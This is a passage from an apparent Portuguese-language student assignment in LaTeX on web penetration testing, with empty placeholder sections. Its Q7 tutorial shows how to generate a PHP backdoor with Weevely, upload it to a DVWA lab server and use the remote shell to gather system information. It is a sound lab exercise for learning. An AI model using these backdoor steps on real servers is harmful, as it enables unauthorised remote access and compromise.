mod\_proxy\_http2. Esse ataque pode ser feito caso a configuração do proxy reverso seja feita para um backend HTTP/2 com a flag ProxyPreserveHost setado como “on”. Possivelmente por se tratar de uma vulnerabilidade recentemente identificada, o NIST ainda não atribuiu um grau de severidade para essa vulnerabilidade.

\subsection{Q3}
\subsubsection{Subsecção}
\paragraph{}

Conteúdo de parágrafo
\subsection{Q4}
\subsubsection{Subsecção}
\paragraph{}

Conteúdo de parágrafo
\subsection{Q5}
\subsubsection{Subsecção}
\paragraph{}

Conteúdo de parágrafo
\subsection{Q6}
\subsubsection{Subsecção}
\paragraph{}

Conteúdo de parágrafo
\subsection{Q7}

\paragraph{Proposta ---} enunciado na \textit{Questão 7}:

\begin{quote}
Use alguma outra ferramenta da Parrot e faça seu próprio experimento. Você pode pesquisar no livro ``Pentest em
  Aplicações Web'' para entender como fazer algo. A escolha é sua. 
  \item Demonstre com screenshots o experimento realizado;
  \item Explique algum detalhe da saída obtida;
  \item Organize o seu experimento na forma de um tutorial: faça uma descrição do experimento e da saída obtida. Esse
    tutorial pode servir para outros alunos usarem a ferramenta. Entregue um arquivo .doc ou .odt com o texto dessa
    questão;
\end{quote}

\subsubsection{Solução --- \textbf{Weevely}}

\paragraph{}Neste experimento, utilizamos o \textbf{Weevely}, um web shell PHP leve projetado para administração remota de servidores e testes de penetração. Ele gera um arquivo PHP malicioso que pode ser carregado em um site vulnerável (neste caso, a DVWA - Damn Vulnerable Web Application), permitindo acesso remoto ao shell.

\paragraph{Passo 1: Executar o Weevely}

\begin{lstlisting}
$ weevely
\end{lstlisting}

\textbf{Saída esperada:}

\begin{lstlisting}
weevely 4.5
Usage: weevely generate <password> <output_file>
       weevely <url> <password>
\end{lstlisting}

\paragraph{Passo 2: Gerar um Backdoor}

\begin{lstlisting}
$ weevely generate pass shell.php
\end{lstlisting}

\textbf{Exemplo de saída:}

\begin{lstlisting}
[*] Backdoor 'shell.php' generated successfully.
[*] Password: pass
\end{lstlisting}

\paragraph{Passo 3: Upload do Backdoor}

No navegador, acesse \texttt{http://[IP\_DA\_OWASP]/dvwa}, vá até a seção \textbf{Upload}, selecione \texttt{shell.php} e clique em \textbf{Upload}.

\paragraph{Passo 4: Conectar ao Shell Remoto}

\begin{lstlisting}
$ weevely http://[IP_DA_OWASP]/dvwa/hackable/uploads/shell.php pass
\end{lstlisting}

\textbf{Saída esperada:}

\begin{lstlisting}
weevely 4.5 connected to http://[IP_DA_OWASP]/dvwa/hackable/uploads/shell.php
weevely> 
\end{lstlisting}

\paragraph{Passo 5: Explorar o Servidor}

Listar comandos disponíveis:

\begin{lstlisting}
weevely> :help
Available commands:
  :system_info   Show server system information
  :ls            List files and directories
  :cat           Display file contents
  :upload        Upload a file
  :download      Download a file
\end{lstlisting}

Obter informações do sistema:

\begin{lstlisting}
weevely> :system_info
OS: Linux 5.15.0-80-generic
Server IP: 10.0.2.5
PHP Version: 7.4.33
Document Root: /var/www/html
\end{lstlisting}

Listar diretórios do servidor:

\begin{lstlisting}
weevely> :ls
drwxr-xr-x  2 www-data www-data 4096 Sep  1 12:00 uploads
-rw-r--r--  1 www-data www-data  100 Sep  1 12:05 shell.php
-rw-r--r--  1 www-data www-data 1024 Sep  1 11:00 index.php
\end{lstlisting}

\paragraph{Explicação da Saída}

O comando \texttt{:system\_info} revela informações críticas do servidor:

\begin{itemize}
  \item Sistema operacional e versão (Linux 5.15.0-80-generic);
  \item Endereço IP do servidor;
  \item Versão do PHP em execução;
  \item Diretório raiz da aplicação web.
\end{itemize}

Com estas informações, é possível identificar vulnerabilidades específicas das versões dos softwares em execução. Além disso, o acesso ao shell permite explorar diretórios, visualizar arquivos e, potencialmente, modificar ou subir arquivos maliciosos, aumentando o risco de escalonamento de privilégios no servidor.

\paragraph{Conclusão}

O Weevely demonstra como a funcionalidade de upload de arquivos em aplicações web vulneráveis pode ser explorada para obter acesso remoto ao servidor. Testes como este ajudam a entender a importância de validar e restringir uploads em aplicações PHP.

\end{document}

